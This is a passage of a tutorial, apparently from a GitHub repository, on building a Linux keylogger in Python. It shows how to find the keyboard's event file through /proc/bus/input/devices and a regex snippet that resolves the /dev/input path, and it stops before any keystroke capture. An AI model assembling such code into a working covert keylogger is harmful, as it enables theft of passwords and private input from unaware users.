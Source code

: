 ```bash
cat /proc/bus/input/devices
```

This file describes the devices connected to the machine. It seems to be the right place to find out what we are looking for and which event our keyboard is referring to. You can find below a screenshot of the command output in my machine.

![image-2](https://raw.githubusercontent.com/neoslab/tutorials/master/medias/bede86af28b5e86c89fb2666e0c5ed16-2.png "Image-2")

Each section on the file is referring to a device connected to the machine. Once you find the **keyboard** device section, focus on the line "H: Handlers" to catch the **eventX** id.

**How can we be sure that it's the correct keyboard event?**

To be sure that you did find the correct **eventX**, you must refer to the line "`B: EV =*`". This line describes the type of events sent. Whatever the king of machine we are using, a keyboard will always return "`EV = 120013`". So considering this and as my example, I can be sure that my keyboard is referring to as **event4**.

So now that we have our devices and we know in which file they write their stream, let move to the next step.

* * *

###### IMPLEMENT THE KEYLOGGER IN PYTHON

**Step one: Find the keyboard**

We will start by automating what we saw just before to find the right event file. The easiest way is to use regular expressions.

```python
with open("/proc/bus/input/devices") as f:
       lines = f.readlines()

       pattern = re.compile("Handlers|EV=")
       handlers = list(filter(pattern.search, lines))

       pattern = re.compile("EV=120013")

       for idx, elt in enumerate(handlers):
           if pattern.search(elt):
               line = handlers[idx - 1]

       pattern = re.compile("event[0-9]")
       infile_path = "/dev/input/" + pattern.search(line).group(0)

```

The above piece of code has for the function to open the file **/proc/bus/input/devices**, read it line by line and find simultaneously the lines of the Handlers (Where we find the event id) and the lines of the EV (Where we find the type of events).

It will return a list which should look like : [eventX, type, eventX, type, eventX, type, eventX, type, …]
